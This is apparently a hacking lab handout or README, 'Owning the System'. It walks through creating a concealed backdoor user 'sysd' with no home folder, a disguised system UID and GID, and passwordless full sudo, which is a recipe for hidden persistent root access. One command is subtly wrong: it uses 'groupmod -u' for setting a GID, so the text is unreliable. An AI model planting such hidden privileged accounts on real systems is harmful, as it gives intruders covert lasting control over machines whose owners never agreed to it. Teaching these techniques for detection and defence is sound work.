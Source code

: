 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo
    
![see photo](/images/picture1.png)